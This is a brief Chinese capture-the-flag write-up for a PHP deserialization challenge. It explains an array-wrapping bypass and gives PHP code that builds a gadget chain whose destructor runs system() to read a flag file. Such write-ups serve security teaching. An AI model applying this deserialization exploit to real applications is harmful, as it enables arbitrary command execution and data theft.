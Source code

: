 ```yaml
---
description: https://github.com/infoseccomm/InfoSec-CTFs/tree/main/2022/Web/Dev
---
```


# Dev

PHP反序列化题目

1. 信息收集得到 main.html
2. 访问网页得到提示访问secretdev.php
3. 反序列化漏洞获得flag

反序列化漏洞利用的时候要求第一个不能是O，也就是不可以直接反序列化一个对象，我们可以通过反序列化数组，然后数组中的元素是目标类对象来绕过。



```php
<?php
class test{
  private $close_cmd = 'cat /var/www/flag.txt';
  function __wakeup(){
    throw new \LogicException($this->message.":".$this->cmd);
  }
  function __destruct(){
    system($this->destruct_cmd);
  }
  public function close(){
    system($this->close_cmd);
  }
}
class test1{
public $logger;
 function __construct($a){
    $this->logger = $a;
 }
  function __destruct(){
    $this->logger->close();
  }

}
$a0 = new test();
$a = new test1($a0);
$b = array($a);
var_dump(serialize($b));

?>


```

